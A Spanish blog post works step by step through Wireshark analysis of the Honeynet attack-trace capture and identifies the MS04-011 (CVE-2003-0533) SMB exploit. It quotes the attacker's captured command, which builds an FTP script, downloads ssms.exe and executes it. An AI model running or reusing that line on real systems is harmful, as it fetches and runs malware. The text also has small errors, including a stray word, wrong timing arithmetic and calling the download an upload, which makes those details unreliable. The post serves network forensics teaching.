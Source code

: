 ```yaml
---
layout: post
title: Wireshark - Analizando una captura
categories: Herramienta
---
```


A continuación se va a plantear una serie de preguntasWannaCry en base a una captura de tráfico de red en formato PCAP, utilizándose Wireshark para responder a estas preguntas, de esta forma se irá viendo cómo obtener la información básica de lo que ocurre en la red en base a una captura del tráfico y la utilización de Wireshark. La captura utilizada puede ser descargada en el siguiente enlace: [https://www3.honeynet.org/wp-content/uploads/attachments/attack-trace.pcap_.gz](https://www3.honeynet.org/wp-content/uploads/attachments/attack-trace.pcap_.gz)

**1. ¿Qué dispositivos (IPs) tenemos? y ¿quién es el atacante y quién el atacado?**

Si vamos a ‘Statics’ -> ‘IPv4 Statistics’ y a ‘All addresses’ podemos ver las IPs que tenemos en esta captura, que son la 192.150.11.111 y la 98.114.205.102.

![Wireshark 01]({{ site.baseurl }}/images/wireshark01.png)

En ‘Statics’ -> ‘Flow Graphs’ podemos ver de forma gráfica el establecimiento de la conexión TCP, y viendo los paquetes SYN y SYN-ACK podemos decir que el atacante es 98.114.205.102 y el atacado 192.150.11.111.

![Wireshark 02]({{ site.baseurl }}/images/wireshark02.png)

**2. ¿Qué puede decir sobre el host atacante? (Por ejemplo, su localización, sistema operativo, etc...)**

Teniendo la IP del host atacante (98.114.205.102) podemos usar diversas herramientas para obtener información.
Con “whois” podemos obtener la organización detrás de la IP (MCI Communications Services, Inc. d/b/a Verizon Business), la dirección (22001 Loudoun County Pkwy, Ashburn, VA 20147, EE. UU. ) y teléfonos, nombres y emails de contacto, entre otra información:

![Wireshark 03]({{ site.baseurl }}/images/wireshark03.png)

En cuanto al Sistema Operativo, podemos obtener esta información mirando los paquetes SMB, para ello usaré los filtros de Wireshark, indicando que el paquete tenga la información del sistema operativo y que la IP de origen del paquete sea la del equipo atacante, es decir, buscaré con el siguiente filtro: “smb.native_os && ip.src == 98.114.205.102”:

![Wireshark 04]({{ site.baseurl }}/images/wireshark04.png)

En ambos paquetes nos devuelve la misma información sobre el sistema operativo, es decir, el sistema operativo es un Windows 2000.
Y en cuanto a la localización podemos usar, por ejemplo, la siguiente herramienta online: [https://check-host.net/ip-info?host=98.114.205.102](https://check-host.net/ip-info?host=98.114.205.102)
Y esta nos devuelve la geolocalización:

![Wireshark 05]({{ site.baseurl }}/images/wireshark05.png)

**3. ¿Cuántas sesiones TCPs ve en la captura?**

Si vamos a ‘Statics’ -> ‘Conversations’ y entramos en la pestaña TCP podemos observar que tenemos 5 sesiones TCPs en todo el proceso que muestra la captura:

![Wireshark 06]({{ site.baseurl }}/images/wireshark06.png)

**4. ¿Cuánto tarda en realizarse el ataque?**

Si analizamos la captura desde Wireshark (en ‘Statics’ -> ‘Capture File properties’) podemos ver que tarda 16 segundos en realizarse:

![Wireshark 07]({{ site.baseurl }}/images/wireshark07.png)

Igualmente en la visualización de los paquetes de Wireshark podemos ver la marca temporal en la columna ‘Time’ indicando como última marca temporal los 16.214214 segundos.

**5. ¿Qué sistema operativo fue el objetivo del ataque?**

Al igual que anteriormente podemos usar los filtros de Wireshark para buscar los paquetes que incluyan la información del sistema operativo y cuya IP de origen sea la máquina del objetivo del ataque, para esto utilizamos los siguientes filtros: “smb.native_os && ip.src == 192.150.11.111”:

![Wireshark 08]({{ site.baseurl }}/images/wireshark08.png)

Como podemos observar, este filtro nos devuelve dos paquetes y en ambos paquetes podemos comprobar que nos indica que el sistema operativo es un Windows 5.1, es decir, un Windows XP.

**6. Resuma las acciones que cree que han sido llevadas a cabo por el atacante (puertos atacados, protocolos involucrados, usuarios, etc..).**

Para ver los puertos que han entrado en juego podemos ir a ‘Statics’ -> ‘IPv4 Statics’ -> ‘Destinations and Ports’, y aquí podemos ver los puertos que han entrado en juego en la máquina atacada:

![Wireshark 09]({{ site.baseurl }}/images/wireshark09.png)

En cuanto a los protocolos involucrados, podemos ir a ‘Statics’ -> ‘Protocol Hierarchy’, y aquí veremos todos los protocolos que aparece en la captura de tráfico y podemos filtrar pulsando el protocolo interesado con el botón derecho y pulsando sobre ‘Apply as Filter’ y ‘Selected’. En la siguiente captura podemos ver los protocolos:

![Wireshark 10]({{ site.baseurl }}/images/wireshark10.png)

Para seguir un orden de los hechos, y habiendo averiguado en las preguntas anteriores el número de sesiones, voy a ir agrupando a través de los filtros los flujos y viendo que se hace en cada uno de ellos. Comenzamos con el tcp.stream == 0:

![Wireshark 11]({{ site.baseurl }}/images/wireshark11.png)

Aquí vemos que se intenta establecer una conexión con el puerto 445. Este puerto es comúnmente utilizado por SMB en Windows desde Windows 2000.
Pasamos al siguiente flujo:

![Wireshark 12]({{ site.baseurl }}/images/wireshark12.png)

Aquí vemos primero que se establece la conexión y que entra en juego el protocolo SMB, con paquetes de “Session Setup”. Vemos que en un momento la víctima responde con un “STATUS_MORE_PROCESSING_REQUIRED”, que significa que está pidiendo credenciales. También podemos ver, en el paquete número 20, la ruta a la que se indica que se conecte. Luego podemos ver que se utiliza el protocolo DCERPC, que es para procedimientos remotos, y se hace uso de DSSETUP que es para obtener información de los “Active Directory”. Y muy importante la información de los paquetes 33 y 38, que nos indica “DsRoleUpgradeDownlevelServer”, y si buscamos esto en Google directamente nos salen diversos exploits para explotar una vulnerabilidad concreta.
Pasamos al análisis del siguiente flujo:

![Wireshark 13]({{ site.baseurl }}/images/wireshark13.png)

Aquí vemos que hay varios paquetes con la ‘flag’ PSH activa, es decir, se le envía cierta información que procedo a revisar. En el paquete número 42, que es el que está seleccionado en la captura de pantalla, se puede ver en la parte inferior que es un comando, procedo a copiar la parte indicada aquí: “echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe”.
Vemos que se pretende subir el fichero ssms.exe haciendo uso de ftp y se le pasa las credenciales para la conexión, pero seguimos con el siguiente flujo.

![Wireshark 14]({{ site.baseurl }}/images/wireshark14.png)

En este flujo lo que podemos observar a través del análisis de los paquetes con la flag ‘PSH’ activa es que se ejecuta de forma correcta el comando descubierto anteriormente. En la captura, por ejemplo, podemos ver que está seleccionado el paquete número 68 y en la parte inferior vemos como se le pasa ‘1’ de password. Anteriormente, de la misma forma, se le pasa también ‘1’ de user. La conexión es satisfactoria, se prepara la subida del fichero y cierra la sesión. Pasamos al siguiente flujo.

![Wireshark 15]({{ site.baseurl }}/images/wireshark15.png)

En este último flujo lo único que vemos es la confirmación de la subida del ejecutable, aquí se sube. En el primer paquete de protocolo ‘Socks’ vemos, en la parte inferior, como se indica “Windows Program”. Con este último flujo podemos confirmar la subida del archivo malicioso.

**7. ¿Qué vulnerabilidad en concreto ha sido atacada? y ¿cree que se trata de un ataque manual o automatizado? Justifique su respuesta.**

Como se pudo ver en el análisis del segundo flujo había dos paquetes que nos informaba de “DsRoleUpgradeDownlevelServer”, y buscando esto en Google obtenemos la vulnerabilidad [CVE-2003-0533](https://nvd.nist.gov/vuln/detail/CVE-2003-0533), vulnerabilidad catalogada por Microsoft como MS04-011 y que si se busca este código en webs como exploit-db se puede encontrar múltiples exploits, algunos para Metasploit.
En cuanto al ataque, creo que es automatizado por el tiempo que tarda en realizarse. Mirando las marcas temporales de los paquetes de Wireshark del último flujo (que es la subida del fichero como se explicó en el punto anterior) podemos observar que va desde el segundo 6.14 hasta el segundo 16.21, es decir, todo el proceso se realiza en 6 segundos.
